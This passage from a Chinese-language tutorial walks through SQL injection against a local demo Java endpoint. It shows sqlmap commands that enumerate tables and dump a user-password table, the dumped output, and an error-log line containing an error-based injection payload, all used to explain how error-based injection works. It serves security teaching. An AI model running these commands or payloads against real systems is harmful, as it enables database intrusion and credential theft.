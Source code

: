 第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"
```

可以看到其中有一个敏感表userdata：

```
Database: common_mistakes
[7 tables]
+--------------------+
| user               |
| common_store       |
| hibernate_sequence |
| m                  |
| news               |
| r                  |
| userdata           |
+--------------------+
```

第三步，查询userdata的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump
```

你看，**用户密码信息一览无遗。当然，你也可以继续查看其他表的数据**：

```
Database: common_mistakes
Table: userdata
[2 entries]
+----+-------+----------+
| id | name  | password |
+----+-------+----------+
| 1  | test1 | haha1    |
| 2  | test2 | haha2    |
+----+-------+----------+
```

在日志中可以看到，sqlmap实现拖库的方式是，让SQL执行后的出错信息包含字段内容。注意看下错误日志的第二行，错误信息中包含ID为2的用户的密码字段的值“haha2”。这，就是报错注入的基本原理：

```
[13:22:27.375] [http-nio-45678-exec-10] [ERROR] [o.a.c.c.C.[.[.[/].[dispatcherServlet]:175 ] - Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is org.springframework.dao.DuplicateKeyException: StatementCallback; SQL [SELECT id,name FROM userdata WHERE name LIKE '%test'||(SELECT 0x694a6e64 WHERE 3941=3941 AND (SELECT 9927 FROM(SELECT COUNT(*),CONCAT(0x71626a7a71,(SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,54) FROM common_mistakes.userdata ORDER BY id LIMIT 1,1),0x7170706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'%']; Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'; nested exception is java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'] with root cause
java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'
```
